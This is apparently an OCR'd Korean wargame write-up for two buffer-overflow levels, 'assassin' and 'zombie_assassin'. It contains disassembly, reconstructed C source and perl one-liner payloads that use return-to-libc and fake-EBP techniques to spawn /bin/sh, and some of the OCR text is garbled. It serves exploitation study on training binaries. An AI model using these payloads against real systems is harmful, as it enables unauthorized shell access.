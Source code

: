 buffer[40]
[쓰레기값44] + [(ret)함수호출주소] + [(system)함수호출주소] + [호출된system함수의 ret주소=>쓰레기값으로 채워줌(4바이트)] + [system함수의 인자값: (/bin/sh)의 주소]
./assassin $(perl -e 'print "a"x44 . "\x1e\x85\x04\x08" . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')


(16) LEVEL 16: assassin / pushing me away

0x8048440 <main>:       push   %ebp 0x8048441 <main+1>:     mov    %ebp,%esp 0x8048443 <main+3>:     sub    %esp,40 0x8048446 <main+6>:     cmp    DWORD PTR [%ebp+8],1 0x804844a <main+10>:    jg     0x8048463 <main+35> 0x804844c <main+12>:    push   0x8048540 0x8048451 <main+17>:    call   0x8048354 <printf> 0x8048456 <main+22>:    add    %esp,4 0x8048459 <main+25>:    push   0 0x804845b <main+27>:    call   0x8048364 <exit> 0x8048460 <main+32>:    add    %esp,4 0x8048463 <main+35>:    mov    %eax,DWORD PTR [%ebp+12] 0x8048466 <main+38>:    add    %eax,4 0x8048469 <main+41>:    mov    %edx,DWORD PTR [%eax] 0x804846b <main+43>:    add    %edx,47 0x804846e <main+46>:    cmp    BYTE PTR [%edx],0xbf 0x8048471 <main+49>:    jne    0x8048490 <main+80> 0x8048473 <main+51>:    push   0x804854c 0x8048478 <main+56>:    call   0x8048354 <printf> 0x804847d <main+61>:    add    %esp,4 0x8048480 <main+64>:    push   0 0x8048482 <main+66>:    call   0x8048364 <exit> 0x8048487 <main+71>:    add    %esp,4 0x804848a <main+74>:    lea    %esi,[%esi] 0x8048490 <main+80>:    mov    %eax,DWORD PTR [%ebp+12] 0x8048493 <main+83>:    add    %eax,4 0x8048496 <main+86>:    mov    %edx,DWORD PTR [%eax] 0x8048498 <main+88>:    add    %edx,47 0x804849b <main+91>:    cmp    BYTE PTR [%edx],0x40 0x804849e <main+94>:    jne    0x80484b7 <main+119> 0x80484a0 <main+96>:    push   0x8048561 0x80484a5 <main+101>:   call   0x8048354 <printf> 0x80484aa <main+106>:   add    %esp,4 0x80484ad <main+109>:   push   0 0x80484af <main+111>:   call   0x8048364 <exit> 0x80484b4 <main+116>:   add    %esp,4 0x80484b7 <main+119>:   push   48 0x80484b9 <main+121>:   mov    %eax,DWORD PTR [%ebp+12] 0x80484bc <main+124>:   add    %eax,4 0x80484bf <main+127>:   mov    %edx,DWORD PTR [%eax] 0x80484c1 <main+129>:   push   %edx 0x80484c2 <main+130>:   lea    %eax,[%ebp-40] 0x80484c5 <main+133>:   push   %eax 0x80484c6 <main+134>:   call   0x8048374 <strncpy> 0x80484cb <main+139>:   add    %esp,12 0x80484ce <main+142>:   lea    %eax,[%ebp-40] 0x80484d1 <main+145>:   push   %eax 0x80484d2 <main+146>:   push   0x804857e 0x80484d7 <main+151>:   call   0x8048354 <printf> 0x80484dc <main+156>:   add    %esp,8 0x80484df <main+159>:   leave 0x80484e0 <main+160>:   ret	if(argc<=1){ printf("argv error\n"); exit(0); } if(argv[1][47]=="0xbf"){ printf("stack retbayed you!\n"); exit(0); } argv[1][47]=="0x40"{ printf("library retbayed you, too!!\n"); exit(0); } strncpy(buffer,argv[1],48); printf("%s\n",buffer);
/* c코드 분석 */
if(argc<=1){ printf("argv error\n"); exit(0); } if(argv[1][47]=="0xbf"){     // 스택메모리사용x printf("stack retbayed you!\n"); exit(0); } if(argv[1][47]=="0x40"){     // 라이브러리사용x printf("library retbayed you, too!!\n"); exit(0); } strncpy(buffer,argv[1],48); printf("%s\n",buffer);
./zombie_assassin $(perl -e 'print "a"x44 . "\xe0\x84\x04\x08" . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40"')
system함수 주소: 0x40058ae0
leave주소: 0x80484df
ret주소:0x80484e0
/bin/sh주소: 0x400fbff9
start함수는 에필로그가 없음.
따라서 main함수의 ebp를 바꾸어도 소용없음.
->에필로그가 있는 다른 함수를 호출해주어야 함.
리턴 어드레스를 바꾸어주면 됨.
리턴어드레스=eip=EBP+4
./zombie_assassin $(perl -e 'print "a"x4 . "\xe0\x8a\x05\x40" . "a"x4 . "\xf9\xbf\x0f\x40" . "a"x24 . "\xa0\xfa\xff\xbf" . "\xdf\x84\x04\x08"')
bffffae0->a0로 바꾸어주어야 함
leave과정에서 mov esp, ebp
pop ebp(esp가 가리키고있는곳의 값이 ebp가 됨)
ret=pop eip(ebp+4)
